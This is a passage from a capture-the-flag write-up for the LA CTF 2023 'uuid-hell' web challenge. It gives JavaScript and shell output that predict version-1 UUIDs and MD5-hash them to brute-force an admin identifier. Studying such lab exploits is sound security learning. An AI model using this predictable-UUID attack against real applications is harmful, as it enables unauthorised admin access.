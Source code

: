 ```py
    else:
        print('[-] Couldn\'t find the same hash in the home page...')


if __name__ == '__main__':
    main()
```

However, I still couldn't predict the UUID in this script...

Hmm... I wonder if can I ***brute force the admin UUID's MD5 hash***...

**To do so, I'll first generate a UUIDv1 BEFORE creating a new admin account. Then, get the regular user's UUIDv1 AFTER new admin account has been created:**
```js
const uuid = require('uuid');
const crypto = require('crypto');

const URL = 'https://uuid-hell.lac.tf';

// Generate UUIDv1 and MD5 hashed one
var adminuuid = uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
console.log("Before created UUIDv1: " + adminuuid);
var hash = crypto.createHash('md5').update("admin" + adminuuid).digest("hex");
console.log("Before created MD5 hash: " + hash);

// Create new admin
fetch(URL + "/createadmin", {
    method: "POST"
}).then(
        response => response.text()
    ).then(
        text => console.log("Create admin response text: " + text)
    );

// Get the current regular user's UUIDv1
fetch(URL).then(
        response => response.text()
    ).then(
        text => console.log("Current regular user's UUIDv1:\n" + text.split('<br><br><strong>')[0])
    );
```

> Note: I switch to JavaScript for simplicity.

```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/uuid-hell)-[2023.02.12|14:12:43(HKT)]
└> nodejs generate_uuidv1.js
Before created UUIDv1: 8c07b990-aa9c-11ed-aa64-67696e6b6f69
Before created MD5 hash: eb3b9bac7f6b78cb5ea2895fc0331772
Current regular user's UUIDv1:
You are logged in as 8c69d6c0-aa9c-11ed-aa64-67696e6b6f69
Create admin response text: Admin account created.
```
